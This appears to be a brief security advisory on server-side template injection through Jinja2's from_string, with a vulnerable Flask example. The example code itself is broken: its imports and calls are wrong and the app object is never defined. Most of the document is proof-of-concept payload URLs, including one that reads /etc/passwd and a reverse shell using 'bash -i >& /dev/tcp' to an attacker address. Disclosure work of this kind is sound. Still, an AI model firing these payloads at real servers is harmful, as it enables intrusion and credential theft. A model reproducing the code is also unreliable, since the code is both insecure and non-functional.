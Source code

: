 <a href="https://ordina.nl" target="_blank"><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRBTgtBKmWL2i-76KccY9u0mrxAF9i0bPAJasA2YYeapgsL02AGlg" 
alt="Ordina  Research Lab" width="240" height="180" border="10" /></a>

#Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


POC
//Exploiting the username param
http://localhost:4444/?username={{4*4}}
OUTPUT: Hello 16

Reading the /etc/passwd

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
